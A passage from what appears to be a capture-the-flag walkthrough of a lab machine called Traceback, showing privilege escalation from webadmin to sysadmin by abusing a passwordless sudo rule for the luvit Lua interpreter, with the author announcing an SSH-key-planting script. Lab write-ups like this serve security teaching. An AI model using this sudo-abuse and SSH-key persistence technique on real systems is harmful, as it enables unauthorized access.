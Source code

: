`note.txt` is from the other user on the box, sysadmin:

```

webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left this tool to practice Lua. Contact me if you have any question.

```

Additionally, webadmin can run `luvit` as sysadmin without a password using `sudo`:

```

webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/webadmin/luvit

```

[Luvit](https://luvit.io/) is a Async I/O for Lua, similar to Node.js.

In webadmin’s `.bash_history` file, there’s the commands that presumably the attacker ran:

```

webadmin@traceback:~$ cat .bash_history 
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout

```

I can’t access `/home/sysadmin`, but the `luvit` binary must be there because running it starts a [repl](https://en.wikipedia.org/wiki/Read%E2%80%93eval%E2%80%93print_loop):

```

webadmin@traceback:~$ /home/sysadmin/luvit
-bash: /home/sysadmin/luvit: Permission denied
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> 

```

### Write SSH Key

I’ll create a simple Lua script that writes my SSH key into sysadmin’s `authorized_keys` file at `/dev/shm/.0xdf.lua`:

